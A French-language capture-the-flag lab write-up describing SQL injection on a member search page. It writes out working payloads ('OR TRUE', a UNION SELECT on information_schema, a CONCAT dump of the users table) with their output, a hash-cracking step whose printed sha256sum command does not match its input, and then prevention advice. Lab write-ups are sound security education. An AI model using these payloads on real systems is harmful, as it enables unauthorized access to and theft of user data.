





# Exploitation d'une Injection SQL sur la table "members"

## 1. Introduction

L’injection SQL est une faille de sécurité qui me permet, en tant qu'attaquant, d'exécuter des requêtes SQL arbitraires sur une base de données en manipulant les entrées utilisateur d'une application web mal sécurisée. Cette vulnérabilité me donne la possibilité d'accéder, modifier ou supprimer des données sensibles.

Dans ce document, je vais détailler comment j'ai découvert et exploité une injection SQL dans un moteur de recherche d'utilisateurs accessible via l’URL suivante :

```bash
http://IP/?page=member
```

## 2. Identification de la faille

L'application contient un moteur de recherche permettant d’afficher des informations sur un utilisateur à partir de son userID. Une requête valide serait :

### Requête légitime

- **Input** : `1`

- **Requête exécutée par le serveur** :

```bash
SELECT first_name, surname FROM users WHERE users.id = 1;
```

- **Output** :

```bash
ID: 1
First name: one
Surname: me
```



J'ai testé une tentative simple d'injection SQL en soumettant une requête non prévue :

### Première tentative d'injection

- **Input** : `SELECT * FROM users`

- **Output** :

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version...
```



Cette erreur SQL brute m'indique que l’application concatène directement mon entrée dans une requête SQL.

## 3. Exploitation de la faille

### 3.1 Injection d’une condition toujours vraie

En injectant une condition toujours vraie (`OR TRUE`), je peux récupérer tous les utilisateurs.

- **Input** : `1 OR TRUE`

- **Requête exécutée** :

```
SELECT first_name, surname FROM users WHERE users.id = 1 OR TRUE;
```

- **Output** :

```bash
ID: 1 OR TRUE
First name: one
Surname: me

ID: 1 OR TRUE
First name: two
Surname: me

ID: 1 OR TRUE
First name: Flag
Surname: GetThe
```



Je vois ici que la requête retourne tous les utilisateurs, dont un utilisateur nommé Flag GetThe.

### 3.2 Injection UNION SELECT

J'ai ensuite tenté une attaque `UNION SELECT` pour récupérer les noms des colonnes :

- **Input** : `-1 UNION SELECT table_name, column_name FROM information_schema.columns`

- **Output** :

```bash
First name: users
Surname : user_id
First name: users
Surname : first_name
First name: users
Surname : countersign
```

J'ai ainsi découvert la structure de la table users, avec la colonne countersign contenant des informations intéressantes.

### 3.3 Récupération des données sensibles

J'ai concaténé toutes les colonnes d’un utilisateur pour voir son contenu :

- **Input** : `-1 UNION SELECT CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign), 1 FROM users`

- **Output** :

```bash
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sha256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```



### 3.4 Déchiffrement du mot de passe

Le message indique une opération de hachage SHA-256 après conversion en minuscules.

- **Déchiffrement de `5ff9d0165b4f92b14994e5c685cdce28` (MD5)** : `FortyTwo`



- **Conversion en minuscules** : `fortytwo`

- **Hachage SHA-256** :

```bash
echo -n "" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## 4. Prévention de la faille

### 4.1 Utilisation des requêtes préparées

Les requêtes préparées empêchent l’injection SQL en séparant la logique SQL des entrées utilisateur :

```bash
$stmt = $pdo->prepare("SELECT first_name, surname FROM users WHERE users.id = :id");
$stmt->execute(['id' => $_GET['id']]);
$result = $stmt->fetch();
```

## 4.2 Validation des entrées utilisateur

- Vérifier que `id` est un entier (`is_numeric($_GET['id'])`).

- Ne jamais afficher directement les erreurs SQL.

### 4.3 Utilisation d'un WAF (Web Application Firewall)

Un WAF comme ModSecurity peut bloquer les tentatives d'injection SQL en détectant des patterns malveillants.

5. Conclusion

J'ai exploité une faille SQL Injection pour obtenir les utilisateurs d’une base de données et récupérer un mot de passe chiffré. J'ai démontré comment empêcher cette vulnérabilité avec des requêtes préparées, une validation stricte des entrées utilisateur et l’utilisation d’un WAF.
